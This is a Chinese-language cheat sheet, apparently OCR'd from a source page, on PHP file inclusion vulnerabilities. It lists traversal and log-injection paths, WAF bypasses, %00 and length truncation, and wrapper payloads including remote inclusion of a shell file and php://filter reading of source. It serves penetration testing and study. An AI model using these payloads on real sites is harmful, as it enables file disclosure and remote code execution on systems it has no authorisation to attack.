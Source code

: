 # 文件包含

## 基础

常见的文件包含漏洞的形式为<?php include("inc/" . $_GET['file']); ?>
考虑常用的几种包含方式为
- 同目录包含file=.htaccess
- 目录遍历?file=../../../../../../../../../var/lib/locate.db
- 日志注入?file=../../../../../../../../../var/log/apache/error.log
- 利用/proc/self/environ

其中日志可以使用SSH 日志或者Web 日志等多种日志来源测试

## 触发Sink(漏洞利用的目标位置)

- PHP
    - include 这个函数会尝试包含指定的文件。如果文件不存在或者包含过程中出错，它会发出警告，但是会继续执行后续的代码。
    - include_once 与 include 类似，但是它会检查文件是否已经被包含过，如果是，则不会再次包含。
    - require 这个函数也会尝试包含指定的文件，但是如果文件不存在或者包含过程中出错，它会发出致命错误，并且终止脚本的执行。
    - require_once 与 require 类似，但是它也会检查文件是否已经被包含过，如果是，则不会再次包含。

## 绕过技巧

### url 编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

### 特殊字符绕过

- 某些情况下，读文件支持使用Shell 通配符，如? * 等
- url 中使用? # 可能会影响include 包含的结果
- 某些情况下，unicode 编码不同但是字形相近的字符有同一个效果

### %00 截断

几乎是最常用的方法，条件是magic_quotes_gpc 关闭，而且php 版本小于5.3.4。

### 长度截断

Windows 上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259 个bytes。

msdn 定义#define MAX_PATH 260，其中第260 个字符为字符串结尾的\0 ，而linux 可以用getconf 来判
断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096 获取最长文件名：getconf NAME_MAX
/root 得到255

那么在长度有限的时候，././././ (n 个) 的形式就可以通过这个把路径爆掉

在php 代码包含中，这种绕过方式要求php 版本< php 5.2.8

### 伪协议绕过

- 远程包含: 要求allow_url_fopen=On 且allow_url_include=On ，payload 为?
file=[http|https|ftp]://websec.wordpress.com/shell.txt 的形式
- PHP input: 把payload 放在POST 参数中作为包含的文件，要求allow_url_include=On ，payload
为?file=php://input 的形式
- Base64: 使用Base64 伪协议读取文件，payload 为?file=php://filter/convert.base64-encode/
resource=index.php 的形式
- data: 使用data 伪协议读取文件，payload 为?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
的形式，要求allow_url_include=On

### 协议绕过

allow_url_fopen 和allow_url_include 主要是针对http ftp 两种协议起作用，因此可以使用SMB、
WebDav 协议等方式来绕过限制。